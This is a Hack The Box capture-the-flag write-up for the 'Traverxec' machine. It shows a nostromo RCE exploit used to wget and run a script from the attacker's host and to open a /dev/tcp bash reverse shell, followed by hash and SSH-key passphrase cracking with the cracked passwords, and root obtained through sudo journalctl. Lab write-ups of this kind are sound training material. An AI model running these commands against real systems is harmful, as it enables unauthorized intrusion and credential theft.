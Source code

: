 ```yaml
---
path: "/htb-traverxec"
title: "Hack The Box - Traverxec"
date: "04/17/2020"
featuredImage: ../../images/traverxec.png
tags: ["pentesting","hackthebox","linux"]
---
```


You start off by doing a nmap scan to see what ports are opened. This will give you an idea of what you could potentially exploit.

## NMAP Scan

```
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not
...
```
At this time there is not much that can be done we with the port 22. More recon needs to be done. Looking up nostromo, you can find that version 1.9.6 is [vulnerble](https://www.exploit-db.com/exploits/47837) to Remote Code Execution (RCE). The readily avaialble exploit comes in the form of a python script (There is a Metasploit module also avialable). To run the script, a hostname, port and command must be supplied. You could leverage this to get a shell into the box but I decide to just issue a command to grab a [linux enumeration script](https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh) and run it. (This script was hosted locally).

```
python nostromo_exploit.py 10.10.10.165 80 "cd /var/nostromo/logs/ && wget http://10.10.14.31:8000/lse.sh.1 && chmod u+x lse.sh.1 && ./lse.sh.1"
```

The output is quite long but the one thing that stands out.
```

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Thu, 05 Mar 2020 07:21:53 GMT
Server: nostromo 1.9.6
Connection: close
...
===============================================================( software )=====
...
[!] sof040 Found any .htpasswd files?...................................... yes!
---
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
---
...
==================================( FINISHED )==================================
```

We now have a username and potential password. From the looks of the hash this is md5crypt. You verify this running 
`hashcat --example-hashes` and searching for the pattern `$1$`

```
hashcat -m 500 -a 0 ./pass.txt /usr/share/wordlists/rockyou.txt --force --show
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

To do more recon establish a shell on box 
`python nostromo_exploit.py 10.10.10.165 80 "nohup bash -c 'bash -i >& /dev/tcp/10.10.14.93/1337 0>&1'"`

From within the box you can locate the nostromo configuration file. This file specifies the options for [HOMEDIRS](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd#HOMEDIRS). This specifies the home directory for nostromo. 

`/var/nostromo/conf/`

The `homedirs_public` option is a publicly accessible folder. You cannot access the `~david/` but you can access `~david/public_www`.
The content of the directory is as follows
```
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area

./protected-file-area:
total 16
drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
-rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www$
```

The backup file contains the following
```
./home:
total 12
drwxr-xr-x 3 root root 4096 Mar  5 19:10 .
drwxr-xr-x 3 root root 4096 Mar  5 20:26 ..
drwxr-xr-x 3 root root 4096 Mar  5 19:10 david

./home/david:
total 12
drwxr-xr-x 3 root root 4096 Mar  5 19:10 .
drwxr-xr-x 3 root root 4096 Mar  5 19:10 ..
drwx------ 2 1000 1000 4096 Oct 25 17:02 .ssh

./home/david/.ssh:
total 20
drwx------ 2 1000 1000 4096 Oct 25 17:02 .
drwxr-xr-x 3 root root 4096 Mar  5 19:10 ..
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 authorized_keys
-rw------- 1 1000 1000 1766 Oct 25 17:02 id_rsa
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 id_rsa.pub
```

The public key is password protectec but can be cracked with `JohnTheRipper`

```
oot@kali:~/HTB/Traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt david.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-03-05 19:23) 0.3154g/s 4524Kp/s 4524Kc/s 4524KC/sa6_123..*7¡Vamos!
Session completed
```

With this you can ssh as david and get the user flag.
```
root@kali:~/HTB/Traverxec/home/david# ssh david@10.10.10.165 -i .ssh/id_rsa 
Enter passphrase for key '.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sat Apr 18 00:43:51 2020 from 10.10.14.93
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ 
```

For the root flag, start from the bin directory in the david home directory. The file `server-stats.sh` contains a line that executes a sudo command.

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

You can use [journalctl](https://gtfobins.github.io/gtfobins/journalctl/#sudo) to escalate privilege to root.

The following command is to be execute with the window smaller than usual to have the output piped to less. From less you can then execute a shell.
`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

from within less 
`!/bin/sh`

Output
```
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2020-04-18 01:33:
Apr 18 01:33:59 traverxec nhttpd[442]:
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
nostromo_1.9.6-1.deb  root.txt
```




